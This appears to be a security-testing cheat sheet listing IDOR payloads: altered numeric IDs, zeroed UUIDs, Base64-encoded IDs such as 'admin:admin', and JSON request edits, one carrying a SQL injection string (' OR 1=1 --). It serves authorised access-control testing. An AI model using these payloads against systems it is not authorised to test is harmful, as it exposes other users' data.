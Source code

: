 ## Common IDOR Testing Payloads

### Numeric ID Manipulation

```
# Original ID
id=1337

# Test payloads
id=1338
id=1
id=0
id=-1
id=null
id=9999999
```

### UUID Manipulation

```
# Original UUID
id=a7f9cb2c-8954-4611-a918-d1462b29455b

# Test payloads
id=a7f9cb2c-8954-4611-a918-000000000000
id=a7f9cb2c-0000-0000-0000-d1462b29455b
id=00000000-0000-0000-0000-000000000000
```

### Base64 Manipulation

```
# Original Base64 (decoded: user:1337)
id=dXNlcjoxMzM3

# Test payloads
id=dXNlcjoxMzM4  # user:1338
id=dXNlcjphZG1pbg==  # user:admin
id=YWRtaW46YWRtaW4=  # admin:admin
```

### JSON Data Manipulation

```json
// Original request
{
  "userId": 1337,
  "action": "view"
}

// Test payloads
{
  "userId": 1338,
  "action": "view"
}

{
  "userId": 1337,
  "action": "admin_view"
}

{
  "userId": "' OR 1=1 --",
  "action": "view"
}
```